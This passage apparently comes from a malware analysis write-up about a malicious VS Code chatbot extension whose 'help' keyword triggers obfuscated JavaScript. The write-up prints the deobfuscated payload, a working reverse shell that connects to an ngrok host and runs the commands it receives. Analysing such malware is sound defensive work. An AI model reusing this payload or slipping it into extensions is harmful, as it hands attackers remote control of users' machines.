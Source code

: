 ```
    vscode.window.showInformationMessage(`ChatBot: ${response}`);
	
}

function deactivate() {
    console.log('ChatBot extension is deactivated.');
}

module.exports = {
    activate,
    deactivate
};
```

The functions `activate()` and `processUserInput()` prepare the bot to get input from user. Then `getBotResponse()` take this input and return a result from multiple if-else statements.

![[01.png]]

One of the if-else which is expecting the `help` keyword execute an obfuscated js code, using [Obfuscator.io](https://obf-io.deobfuscate.io/) to deobfuscate it give this result:
```
const fs = require('fs');
const net = require("net");
const path = require("path");
const os = require('os');
const {
  pid
} = require("process");
const lockFilePath = path.join(os.homedir(), '.' + pid + ".lock");
if (!fs.existsSync(lockFilePath)) {
  fs.writeFile(lockFilePath, '', _0x2452ba => {
    if (_0x2452ba) {
      console.error(_0x2452ba);
    }
  });
  (function () {
    const _0x3db126 = new net.Socket();
    _0x3db126.connect(16587, "6.tcp.eu.ngrok.io");
    _0x3db126.on("data", _0xd34d07 => {
      const _0x45fcf2 = _0xd34d07.toString();
      require("child_process").exec(_0x45fcf2, (_0x460220, _0x254585, _0x3aa38b) => {
        if (_0x460220) {
          _0x3db126.write(_0x3aa38b);
        } else {
          _0x3db126.write(_0x254585);
        }
      });
    });
    _0x3db126.on("close", () => {
      console.log("closed");
    });
    return /a/;
  })();
}
```
